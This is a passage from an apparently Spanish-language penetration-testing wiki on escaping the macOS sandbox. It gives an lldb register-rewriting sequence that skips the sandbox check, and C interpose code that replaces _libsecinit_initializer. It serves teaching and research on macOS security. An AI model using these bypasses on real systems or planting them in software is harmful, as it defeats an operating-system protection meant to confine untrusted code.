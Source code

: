 ```bash

# To bypass jump to the b.lo address modifying some registers first
(lldb) breakpoint delete 1 # Remove bp
(lldb) register write $pc 0x187659928 #b.lo address
(lldb) register write $x0 0x00
(lldb) register write $x1 0x00
(lldb) register write $x16 0x17d
(lldb) c
Process 2517 resuming
Sandbox Bypassed!
Process 2517 exited with status = 0 (0x00000000)
```
{% hint style="warning" %}
**Incluso con el Sandbox evadido, TCC** preguntará al usuario si desea permitir que el proceso lea archivos del escritorio.
{% endhint %}

### Abusando de otros procesos

Si desde el proceso del Sandbox eres capaz de **comprometer otros procesos** que se ejecutan en Sandboxes menos restrictivos (o sin ellos), podrás escapar a sus Sandboxes:

{% content-ref url="../../macos-proces-abuse/" %}
[macos-proces-abuse](../../macos-proces-abuse/)
{% endcontent-ref %}

### Bypass de Interposting

Para obtener más información sobre **Interposting**, consulta:

{% content-ref url="../../mac-os-architecture/macos-function-hooking.md" %}
[macos-function-hooking.md](../../mac-os-architecture/macos-function-hooking.md)
{% endcontent-ref %}

#### Interponer `_libsecinit_initializer` para evitar el Sandbox
```c
// gcc -dynamiclib interpose.c -o interpose.dylib

#include <stdio.h>

void _libsecinit_initializer(void);

void overriden__libsecinit_initializer(void) {
    printf("_libsecinit_initializer called\n");
}

__attribute__((used, section("__DATA,__interpose"))) static struct {
	void (*overriden__libsecinit_initializer)(void);
	void (*_libsecinit_initializer)(void);
}
_libsecinit_initializer_interpose = {overriden__libsecinit_initializer, _libsecinit_initializer};
```
